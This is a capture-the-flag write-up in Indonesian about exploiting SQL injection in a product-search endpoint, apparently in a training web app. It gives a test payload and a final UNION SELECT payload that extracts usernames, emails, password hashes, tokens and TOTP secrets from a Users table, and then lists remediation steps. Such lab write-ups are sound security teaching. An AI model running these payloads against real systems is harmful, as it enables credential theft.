



# User Credentials

## Challenge Overview

**Title:** User Credentials

**Category:** Injection

**Difficulty:** ⭐⭐⭐⭐ (4/6)

Challenge ini meminta kita untuk mengeksploitasi SQL Injection pada fitur pencarian produk untuk mengekstrak seluruh kredensial user yang tersimpan dalam database aplikasi.

---

## Tools Used

* **Web Browser** → untuk mengakses aplikasi dan mencoba input.
* **Developer Tools / Burp Suite** → untuk memeriksa request-response serta memodifikasi payload.

---

## Step by Step Solution

### 1. Identifikasi Tabel dan Skema Database

Dari challenge sebelumnya (**Database Schema**), diketahui bahwa tabel `Users` memiliki 13 kolom penting, di antaranya:

```
id, username, email, password, role, deluxeToken,
lastLoginIp, profileImage, totpSecret, isActive,
createdAt, updatedAt, deletedAt
```

Informasi ini penting untuk menyusun payload SQL Injection yang valid.

---

### 2. Temukan Endpoint Rentan SQLi

Endpoint yang digunakan adalah:

```
/rest/products/search?q=
```

Parameter `q` tidak difilter dengan benar dan langsung dipakai dalam query SQL, sehingga rawan terhadap SQL Injection.



---

### 3. Uji Payload Dasar

Saya mencoba payload sederhana:

```sql
' OR 1=1--
```

dan berhasil menampilkan seluruh produk, yang mengindikasikan adanya kerentanan SQL Injection.

---

### 4. Sesuaikan Jumlah Kolom

Karena query search produk membutuhkan **9 kolom**, maka payload UNION harus mengembalikan jumlah kolom yang sama agar tidak error.

Kolom yang dipilih dari tabel `Users` adalah:

* `username`
* `email`
* `password`
* `role`
* `deluxeToken`
* `totpSecret`
* `isActive`
* `createdAt`
* `updatedAt`

---

### 5. Payload Final

Payload final yang berhasil mengekstrak data user adalah:

```sql
aaa')) UNION SELECT 
username, email, password, role, deluxeToken,
totpSecret, isActive, createdAt, updatedAt 
FROM Users--
```

Hasilnya, seluruh data user (username, email, password hash, dan atribut lainnya) berhasil ditampilkan di hasil pencarian.

---

## Solution Explanation

Kerentanan SQL Injection pada endpoint pencarian produk memungkinkan attacker menyusun query UNION untuk membaca data dari tabel lain. Dengan menyesuaikan jumlah kolom pada query asli (9 kolom), attacker dapat mengambil seluruh kredensial user dari tabel `Users`.

Intinya, SQL Injection dimanfaatkan untuk:

1. Menyuntikkan query tambahan ke SQL backend.
2. Menyamakan jumlah kolom agar tidak terjadi error.
3. Mengekstrak data sensitif seperti username, email, password hash, hingga token.

---

## Remediation

Untuk mencegah kerentanan seperti ini, langkah-langkah berikut harus diterapkan:

* **Input Validation & Sanitization**: Filter semua input user agar tidak bisa disisipkan karakter SQL berbahaya.
* **Prepared Statements (Parameterized Queries)**: Gunakan query terparametrisasi daripada query string dinamis.
* **Least Privilege**: Batasi hak akses database hanya sesuai kebutuhan aplikasi.
* **Monitoring & Logging**: Pantau query abnormal yang bisa mengindikasikan serangan SQLi.